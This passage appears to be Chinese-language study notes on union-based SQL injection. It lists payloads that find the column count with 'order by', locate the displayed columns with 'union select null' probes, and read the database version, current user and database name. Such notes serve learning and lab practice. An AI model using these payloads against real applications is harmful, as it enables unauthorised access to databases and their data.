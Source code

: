 ~~~sql
-测列数：
order by 4
and 1=2 union select null,null,null,null
-测显位：第2，3
and 1=2 union select 'null',null,null,null 错误
and 1=2 union select null,'null',null,null 正常
and 1=2 union select null,null,'null',null 正常
and 1=2 union select null,null,null,'null' 错误
~~~

![image-20250112205602940](.\SQL注入原理.assets\image-20250112205602940.png)

~~~sql
-获取信息：
and 1=2 UNION SELECT null,version(),null,null
and 1=2 UNION SELECT null,current_user,null,null
and 1=2 union select null,current_database(),null,null
~~~

![image-20250112205729198](.\SQL注入原理.assets\image-20250112205729198.png)
